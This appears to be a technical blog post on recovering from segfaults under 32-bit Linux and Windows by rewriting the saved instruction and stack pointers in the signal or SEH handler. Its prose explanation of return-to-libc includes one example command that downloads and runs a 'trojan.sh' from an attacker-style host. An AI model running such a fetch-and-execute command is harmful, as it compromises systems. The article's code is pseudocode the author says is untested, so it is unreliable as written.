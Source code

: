 Cleanly recovering from Segfaults under Windows and Linux (32-bit, x86)
## two brief- three. three brief notes.

First. Windows calls 'em access violations, Linux calls 'em segfaults. I'm a linux person, so I'll
go with segfaults. They're the same thing though.

Second. My code may look like C, but since it's ported from a decidedly not-C language and
I didn't actually test it to see if it compiles, you should treat it like pseudocode.
_Caveat lector_. (look ma I'm classy)

Third, a warning. For me, in almost every case of segfaults, they arise due to a null pointer dereference.
These are basically harmless. However, the remaining cases tend to be _really really destructive_
things like buffer overflows, that can end up corrupting memory basically at random.
**When you attempt to recover from segfaults, you are playing with fire**. That said, moving on ..

## the problem

Segfault crashes are annoying. Most exceptions can be caught, but segfaults are the archetypal
instant/total crash. Ways of handling them tend to rely on system-specific methods and have their
own idiosyncracies. In this article I'm gonna outline how to recover from segfaults under Linux
(probably at least some other POSIX systems as well) as well as Windows (32-bit each). Interestingly,
the approach is quite similar, and should generalize to 64-bit systems with minor prodding assuming
you're familiar with the 64-bit version of cdecl.

## the basic idea

Both Windows and Linux let you define handler functions that are executed when a segfault occurs.
In theory we could throw an exception right from the handler, but this is **highly iffy**
because the operating system treats "the state of being in a handler function" as special.
We can't return from the handler function either, because that'll just bring us back to the
crash site. Instead, we need to take a page out of the Black Hat Book.

## return-to-libc

Almost all exploits are concerned primarily with getting the target computer to execute arbitrary
code. Buffer overflows let you overwrite variables, but they usually don't let you change _code_,
because assembler code does not live on the stack. There's a trick to bypass this, though,
and it's called the return-to-libc attack.

Basically, it would be enough if we could call one C library function with arbitrary arguments.
For instance, the function could be system() and the argument could be
`wget http://crackedserver.cc/trojan.sh && sh -c trojan.sh`. But we can't change code, so
we cannot insert a call instruction, even with a buffer overflow.

We can, however, reuse a call instruction that's already there.

Did you know that the "ret" instruction works like a jump that takes its address from the stack?

The way function calls work is, the "call" instruction pushes the next instruction address
after the "call" onto the stack (in most cases, the same stack as used for static buffers
, although some rare architectures have dedicated instruction stacks [and thus
are immune to this attack]), then executes a jump to the target function. Symmetrically,
the "ret"[urn] instruction simply pops an address from the stack and jumps to it.

Knowing this, our attack is simple: use a buffer overflow to overwrite the return address of the
current function with `&system`, and provide the appropriate arguments for it. This is made easier
by the fact that for historical reasons, most stacks grow _downwards_, as opposed to static buffers
on the stack, which naturally grow upwards.

We are going to make use of a similar approach.

## applying this to segfault recovery

We want the segfault handler to execute arbitrary code without being limited to what the OS
deems "safe" for handlers. For that, we need to execute a jump to the address of our userspace
(non-handler, though of course the handler is not run in kernel space)
handler function. But we can't rewrite the callsite.

We _can_ rewrite the stack. And we have one "ret" instruction available.

On both Windows and Linux, the segfault handler function is passed a "context struct", which
includes the state of the registers at the failure site. Ostensibly, this is so people can
repair the problem that caused the segfault (it also lets you do nifty things like userspace
segment handling). However, what we're going to do is to set up an imitation of the effects
of a call instruction on the stack (`push ip`), then rewrite the instruction pointer in that struct
and let the operating system's return to user code do the work for us - instead of returning to the
failing code, it's going to return to a handler function.

Enough talk. Bring the code!

## the code

### linux

    #include "signal.h"
    void seghandle_userspace() {
      // note: because we set up a proper stackframe,
      // unwinding is safe from here.
      // also, by the time this function runs, the
      // operating system is "done" with the signal.
      
      // choose language-appropriate throw instruction
      // raise new MemoryAccessError "Segmentation Fault";
      // throw new MemoryAccessException;
      // longjmp(erroneous_exit);
      // asm { int 3; }
      *(int*) NULL = 0;
    }
    enum X86Registers {
      GS, FS, ES, DS, EDI, ESI, EBP, ESP, EBX, EDX, ECX, EAX,
      TRAPNO, ERR, EIP, CS, EFL, UESP, SS
    }
    void seghandle(int sig, void* si, void* unused) {
      ucontext_t* uc = (ucontext_t*) unused;
      // No. I refuse to use triple-pointers.
      // Just pretend ref a = v; is V* ap = &v;
      // and then substitute a with (*ap).
      ref gregs = uc->uc_mcontext.gregs;
      ref eip = (void*) gregs[X86Registers.EIP],
      ref esp = (void**) gregs[X86Registers.ESP];
      
      // imitate the effects of "call seghandle_userspace"
      esp --; // decrement stackpointer.
              // remember: stack grows down!
      *esp = eip;
      
      // set up OS for call via return, like in the attack
      eip = (void*) &seghandle_userspace;
    }
    void setup_segfault_handler() {
      struct sigaction sa;
      sa.flags = SA_SIGINFO;
      sigemptyset (&sa.mask);
      sa.sigaction = &seghandle;
      if (sigaction(SIGSEGV, &sa, NULL) == -1) {
        fprintf(stderr, "failed to setup SIGSEGV handler\n");
        exit(1);
      }
    }

So on SIGSEGV, `seghandle` is called (as a signal handler), rewrites the signal's instruction address
to `seghandle_userspace`, then returns to the OS, which in returning to user code jumps to
`seghandle_userspace`, which then throws an exception or does whatever else it likes.

### windows

Under Windows, this is slightly more involved. (Of course it is. Have you seen the size of a
typical winapi function as compared to POSIX?)

What surprised me though, was how similar the approach is under Windows. The Linux approach can almost
be copied 1:1.

Big credit goes to Matt Pietrek and the highly valuable [crash course on the Depths of Win32™
SEH](http://www.microsoft.com/msj/0197/exception/exception.aspx).

Basically, Windows uses SEH (Structured Exception Handling) to cope with critical errors.
You've seen SEH before - the default SEH handler is the "This application has stopped working"
pop-up.
SEH handlers are tracked with a linked list stored in `FS[0]`. This is
the one part where you may need some assembler, or use your compiler's built-in primitives
(`_try`/`_except`) where provided. I'm going to assume that `_try`/`_except` is not available.

Okay. When a SEH error happens under Windows, the operating system grabs the list of handlers
from `FS[0]`, then queries them in order to see if any of them will handle the error. Handlers
have the choice to say "keep looking", "return to user code" or "invoke exception handler".

A useful note: if we pass over an exception and let the operating system handle it, it will call
our handler again with EH_UNWINDING set. Since the other parameters will be unchanged,
and the function probably won't try to suddenly handle an exception it just passed over,
this mostly need not concern us.

The code!

      #include "winbase.h"
      #include "windows.h"
      #include "excpt.h"
      void seghandle_userspace() {
        // see above re. what to do now
        *(int*) NULL = 0;
      }
      EXCEPTION_DISPOSITION seghandle
      (_EXCEPTION_RECORD* record, void* establisher_frame,
       _CONTEXT* context, void* dispatcher_context
      ) {
        // see above
        ref
          esp = (void**)context.Esp,
          eip = (void* )context.Eip;
        // imitate the effects of "call seghandle_userspace"
        // stack grows down under windows, too
        esp --;
        *esp = eip;
        // rewrite eip for return-to-lib, same as linux
        eip = (void*) &seghandle_userspace;
        // and back to user code.
        return ExceptionContinueExecution;
      }
      void setup_segfault_handler() {
        _EXCEPTION_REGISTRATION reg;
        // Note: this bit will require assembly.
        // Consult your compiler vendor documentation.
        reg.prev = FS[0];
        reg.handler = &seghandle;
        FS[0] = &reg;
        // note: do this on exit
        // fs[0] = ((_EXCEPTION_REGISTRATION) fs[0]).prev;
      }
